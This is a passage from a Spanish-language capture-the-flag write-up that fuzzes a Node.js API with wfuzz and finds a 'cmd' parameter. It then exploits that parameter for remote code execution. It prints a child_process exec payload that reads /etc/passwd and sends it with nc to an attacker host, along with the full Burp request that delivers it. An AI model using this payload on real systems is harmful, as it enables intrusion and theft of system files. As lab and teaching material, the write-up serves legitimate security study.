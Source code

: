 Despues de un buen tiempo pensando y enumerando descubrir que en la ruta `http://[IP-VICTIM]/api/items` existe un paramatro 

```java
❯ wfuzz -c -f directoryWeb,raw -w /usr/share/wordlists/dirb/big.txt --hc 404 --hh=45 -X POST  http://[IP-VICTIM]/api/items?FUZZ\=test
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://[IP-VICTIM]/api/items?FUZZ=whoami
Total requests: 20469

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000004748:   500        10 L     64 W       1083 Ch     "cmd"   
```
Con `wfuzz` hacemos `fuzzing` y encontramos el parametro que haciendo uso de esto podemos ejecutar comandos

El siguiente post de [ibreak](https://ibreak.software/2016/08/nodejs-rce-and-a-simple-reverse-shell/) nos ayudara a explotar esta vulnerabilidad

### Node js RCE

```java
require('child_process').exec('cat+/etc/passwd+|+nc+attacker-ip+80')
```

Haciendo uso de `burpsuite` vamos a enviar nuestra petición, tenemos la peticion :

```java
POST /api/items?cmd=require('child_process').exec('cat%20/etc/passwd%20|%20nc%20[IP-ATTACKER]%2080') HTTP/1.1
Host: 10.10.97.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
If-None-Match: W/"a9-0aR6bAfiK/DB+A79vs3kEEVvJNc"
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

```

Enviamos la petición

![20231108104248.png](20231108104248.png)
